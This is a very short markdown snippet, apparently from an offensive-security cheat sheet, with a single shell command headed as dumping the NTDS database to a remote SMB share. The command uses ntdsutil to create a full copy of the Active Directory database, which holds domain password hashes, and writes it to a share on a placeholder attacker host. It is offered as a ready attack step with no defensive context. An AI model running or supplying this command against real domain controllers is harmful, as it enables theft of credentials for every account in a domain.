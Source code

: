 # Dumping ntdsdit locally to a remote smb share
```shell
ntdsutil "ac i ntds" "ifm" "create full \\<ATTACKER_IP>\pwd" q q
```